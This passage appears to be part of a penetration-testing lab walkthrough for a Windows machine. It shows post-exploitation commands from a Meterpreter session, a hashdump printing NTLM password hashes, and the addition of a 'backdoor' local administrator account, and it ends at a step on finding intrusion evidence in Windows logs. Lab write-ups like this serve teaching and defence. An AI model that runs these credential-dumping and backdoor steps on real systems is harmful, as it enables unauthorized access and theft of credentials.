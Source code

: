 ## Step 6: Post-Exploitation & Privilege Escalation
```bash
shell
whoami
net localgroup administrators
```

### In Kali:
```bash
C:\Windows\System32>whoami
whoami
desktop-f3buvno\user

C:\Windows\System32>net localgroup administrators
net localgroup administrators
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
user
The command completed successfully.
```

## Step 7: Dump Password Hashes and Add Backdoor
```bash
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
user:1002:aad3b435b51404eeaad3b435b51404ee:57d583aa46d571502aad4bb7aea09c70:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:04dbcbc8a23c9a31479a3ad8a3a8f2e7:::
```

### Add Backdoor:
```bash
C:\Windows\System32>net user backdoor P@ssword123 /add
net localgroup administrators backdoor /add
net user backdoor P@ssword123 /add
The command completed successfully.


C:\Windows\System32>net localgroup administrators backdoor /add
The command completed successfully.
```

## Step 8: Check for Evidence of Intrusion in Windows Logs
